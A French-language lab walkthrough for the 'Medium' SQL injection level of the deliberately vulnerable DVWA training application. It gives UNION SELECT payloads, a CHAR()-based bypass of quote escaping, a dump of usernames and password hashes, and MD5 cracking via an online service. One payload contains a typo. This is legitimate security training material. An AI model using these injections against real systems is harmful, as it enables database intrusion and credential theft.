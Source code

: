 # Niveau "Medium"

Le formulaire est légèrement modifié ici puisque l'application nous présente non plus un champ de type `<input>` mais une liste de sélection `<select>` :

![](../../../../.gitbook/assets/01cdc18d716ae4bddce7d1c64bb83075.png)

Pour un soucis de simplicité, j'utilise ici l'extension Web Developer \(possible via Burp également\) qui va convertir ce nouveau formulaire en champ de type `<input>` :

![](../../../../.gitbook/assets/50601a1b929aae8bcc75f6023ff5fc6d.png)

On tente d'injecter notre caractère spécial `"'"` afin de générer une erreur SQL :

![](../../../../.gitbook/assets/0af6ed1e681ffc6f5b9b95c97ca44859.png)

L'erreur nous informe sur la présence d'une protection car le caractère `"'"` est échappé \(via le caractère `"\"`\). De plus, l'erreur nous indique qu'il s'agit sans doute d'une injection de type numérique et non plus de type String \(nombre de `"'"` entourant notre donnée\).

Sans reprendre toutes les étapes de reconnaissance \(déjà effectuées pour le niveau "Low"\), voici l'exploitation de l'injection dans les grandes lignes :

```sql
1 UNION SELET 1,2
```

![](../../../../.gitbook/assets/8a1a58636b34849d9a72d55aedb3d7a3.png)

L'échappement effectué par l'application est un peu embêtant car il nous empêche d'effectuer notre clause `WHERE` : 

```sql
6 UNION SELECT table_name,2 FROM INFORMATION_SCHEMA.tables WHERE TABLE_SCHEMA = 'dvwa' -- 
```

![](../../../../.gitbook/assets/064b4c7ce96c1e4813c22f82ea99e670.png)

Afin de contourner cette limitation on peut, soit supprimer notre clause, ce qui aura pour conséquence de retourner une liste de toutes les tables des différentes bases, ou alors, d'utiliser la fonction `CHAR()` de MySQL :

```sql
6 UNION SELECT table_name,2 FROM INFORMATION_SCHEMA.tables WHERE TABLE_SCHEMA = CHAR(100,118,119,97)
```

![](../../../../.gitbook/assets/4bdb391ab3998433c70c6425147d293f.png)

Maintenant que nous pouvons contourner l'échappement en place, la suite est facile :

```sql
6 UNION SELECT column_name,2 FROM INFORMATION_SCHEMA.columns WHERE TABLE_SCHEMA = CHAR(100,118,119,97)
```

![](../../../../.gitbook/assets/8004e892184bbee82544170bd286f0c0.png)

Puis finalement :

```sql
6 UNION SELECT user,password FROM dvwa.users
```

![](../../../../.gitbook/assets/d564f4efc9dd1d64a60832cbd563ab3d.png)

Une fois fait, la dernière étape reste de cracker les hash md5 \(32 caractères\) des mots de passe en utilisant par exemple [crackstation.net](https://crackstation.net/) :

![](../../../../.gitbook/assets/80ef0f7a16a8a069f943e801429ef8f7%20%281%29.png)


